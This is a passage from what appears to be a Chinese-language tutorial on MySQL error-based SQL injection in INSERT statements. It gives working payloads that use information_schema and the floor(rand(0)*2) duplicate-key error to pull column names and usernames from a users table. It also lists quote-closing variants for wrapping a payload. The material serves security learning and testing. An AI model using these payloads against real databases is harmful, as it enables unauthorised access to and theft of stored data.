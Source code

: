 ![enter image description here](http://drops.javaweb.org/uploads/images/700479bcd0168818192a05ba427bd0ae67d93df7.jpg)

获取users表的列名：

```
INSERT INTO users (id, username, password) VALUES (1, 'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT distinct concat(0x7e,0x27,cast(column_name as char),0x27,0x7e) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 0,1)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '', 'Nervo');

```

![enter image description here](http://drops.javaweb.org/uploads/images/d335f9b1c2b38c28a003ab29aa065de5d47f6a7c.jpg)

获取users表的数据：

```
INSERT INTO users (id, username, password) VALUES (1, 'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT concat(0x7e,0x27,cast(users.username as char),0x27,0x7e) FROM `newdb`.users LIMIT 0,1) ) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '', 'Nervo');

```

![enter image description here](http://drops.javaweb.org/uploads/images/69b3a471c1f020005cff5c8a16a3902a144428cd.jpg)

0x07 更多闭合变种
-----------

* * *

```
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'* (payload) *'
' or (payload) and '
" – (payload) – "

```

0x08 引用
-------

* * *

http://dev.mysql.com/

http://websec.ca/kb/sql_injection

from：http://www.exploit-db.com/wp-content/themes/exploit/docs/33253.pdf